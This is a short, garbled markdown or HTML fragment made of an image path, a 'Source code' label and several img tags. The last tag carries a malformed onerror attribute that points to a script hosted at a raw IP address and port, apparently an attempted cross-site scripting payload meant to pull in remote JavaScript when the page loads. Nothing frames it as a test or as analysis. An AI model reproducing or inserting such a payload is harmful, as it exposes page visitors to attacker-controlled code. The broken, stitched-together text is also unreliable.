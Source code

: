 <img src="../../../../r89shi/r89shi.github.io/blob/master/140.gifs?raw=true">

<img src="">
<img src="" "onerror='http://54.155.251.55:8000/ff.js'">
